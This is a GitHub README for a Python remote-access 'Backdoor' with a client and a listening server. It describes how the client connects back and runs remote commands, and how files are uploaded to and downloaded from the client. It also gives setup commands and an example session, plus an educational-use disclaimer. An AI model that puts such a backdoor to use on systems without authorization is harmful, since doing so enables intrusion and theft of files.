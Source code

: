 # Backdoor Project

This project is a client-server-based "Backdoor" application developed in Python. **network_socket.py** represents the client side, and **socket_listener.py** represents the server side. The main purpose of the project is to provide a platform for learning network programming and security testing. The project includes features such as command execution, file transfer, and directory management. **Misuse is strictly prohibited and it is intended for educational purposes only.**

---

## Features

### Client (network_socket.py):
1. **Command Execution**: Executes commands received from the server and sends the results back.
2. **File Transfer**: Enables uploading files to the server and downloading files from the client.
3. **Directory Management**: Allows changing the working directory.
4. **JSON Communication**: Transmits commands and file contents in JSON format.

### Server (socket_listener.py):
1. **Connection Management**: Listens for and accepts client connections.
2. **Command Dispatch**: Sends commands to the client and receives their output.
3. **File Transfer**: Manages downloading files from and uploading files to the client.
4. **User-Friendly Interface**: Provides a command-line interface.

---

## How It Works

This application is based on a basic client-server architecture:
1. The **server (socket_listener.py)** listens for incoming connections on a specified IP and port.
2. The **client (network_socket.py)** connects to the server and executes incoming commands.
3. Communication occurs using the JSON protocol, ensuring orderly processing of commands and files.

---

## Installation

### Requirements
- **Python 3.6 or higher**
- Required libraries: `simplejson`, `optparse` (These libraries come pre-installed with Python.)

### Steps
1. Clone the repository:
   ```bash
   git clone https://github.com/FurkanRecber/Backdoor.git
   cd Backdoor
   ```
2. Start the server:
   ```bash
   python socket_listener.py -i <server_ip> -p <port>
   ```
3. Start the client:
   ```bash
   python network_socket.py -i <server_ip> -p <port>
   ```

---

## Usage Details

### Server Side (socket_listener.py)
The server, after accepting a client connection, can send commands and retrieve their output.
- Available commands:
  - **`cd <directory>`**: Changes the working directory.
  - **`download <file_path>`**: Downloads the specified file from the client.
  - **`upload <file_path>`**: Uploads a file to the client.
  - **`exit`**: Terminates the connection.

#### Example Usage:
```bash
Enter command: cd /home/user
Enter command: download test.txt
Enter command: upload /path/to/local/file.txt
Enter command: exit
```

### Client Side (network_socket.py)
The client executes commands received from the server and sends the results back. It also handles file transfers and directory changes.

#### Example Scenarios:
- When the server sends the "download" command, the client sends the specified file to the server.
- When the server sends the "upload" command, the client receives the file and saves it locally.

---

## Project Structure
- **network_socket.py**: Python file managing the client-side operations. Connects to the server and processes incoming commands.
- **socket_listener.py**: Python file managing the server-side operations. Listens for and accepts client connections and sends commands.

---

## Warning
1. This software is intended strictly for **educational and testing purposes**.
2. **Unauthorized access** is unethical and illegal. Use the software only on systems you have permission to access.
3. Ensure compliance with network security protocols and set up a test environment before using the software.
4. The user is solely responsible for any outcomes resulting from its use. The developer cannot be held liable for any misuse.
